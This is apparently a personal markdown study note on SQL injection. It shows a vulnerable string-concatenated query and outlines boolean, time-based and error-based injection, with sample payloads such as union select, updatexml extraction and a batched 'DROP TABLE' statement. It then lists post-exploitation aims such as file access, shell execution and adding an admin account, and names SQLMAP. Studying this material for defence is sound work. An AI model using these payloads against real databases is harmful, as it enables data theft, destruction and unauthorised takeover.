 # Concept
 SQL injection is a code injection technique that might destroy your database.
 ```sql
txtUserId = getRequestString("UserId");
txtSQL = "SELECT * FROM Users WHERE UserId = " + txtUserId;
 ```

## Type
- Boolean based
  - numberic : Id = 100 or 1=1;
  - string : name = "" or "1"="1";
- Time based
  - if(substring(user(),1,1)=0x0A,sleep(0.1),0)
- error-based


## Discovery
- format
  - normal
  - pathinfo/router
  - rewrite

## exploit
Close the former SQL statement and insert some added query, such as union select.
- search sentitive infomation
  - 1.Union select
    - order by 1 )) union select concat((select(version()),'-',(select user))
  - 2.[Error](https://www.cnblogs.com/c1047509362/p/12806297.html): extractvalue, updatexml,floor
    - test" and updatexml(1,concat(0x01,user()),1)--
  - 3.Batch handling
    - id =1; DROP TABLE table;
- function
  - 1.request
  - 2.File: read, write
  - 3.Execute: shell command
  - 4.UDF: so library
- business
   - add admin account
  
  
  
## tools
- SQLMAP

 

